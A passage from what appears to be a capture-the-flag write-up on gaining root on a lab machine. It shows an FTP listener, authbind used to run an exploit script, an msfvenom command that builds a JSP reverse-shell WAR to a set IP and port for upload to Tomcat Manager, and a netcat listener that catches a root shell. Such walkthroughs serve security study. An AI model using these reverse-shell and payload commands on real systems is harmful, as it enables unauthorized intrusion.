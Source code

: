 On my box I started an FTP listener
```
python -m pyftpdlib --port=21
```

Running the exploit threw an error: "socket.error: [Errno 99] Cannot assign requested address". 

![image](https://user-images.githubusercontent.com/10210108/82740089-7751a400-9d13-11ea-87e5-8c91f8a2b7c1.png)

There is a workaround using [Authbind](https://manpages.ubuntu.com/manpages/xenial/man1/authbind.1.html) which allows binding sockets to privileged ports without root and this worked.

```
authbind python ./exploit.py
```

![image](https://user-images.githubusercontent.com/10210108/82759803-88ef8600-9dbd-11ea-8208-648f3de22b69.png)

Because I was going to be running the exploit and listening on netcat on port 3000 I needed a second session. I create a second payload with msfvenom for port 4201 and uploaded it to Tomcat Web Application Manager.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=4201 -f war > rshell2.war
```

Once logged in on the second session I set up a netcat listener for port 3000.

```
nc -lvnp 3000
```

Once the container downloaded the .wgetrc file and created the cron job I waited and after a few minutes I received a callback and had shell as the root user.

![image](https://user-images.githubusercontent.com/10210108/82744410-142d3500-9d46-11ea-86ac-c4342a5f8261.png)


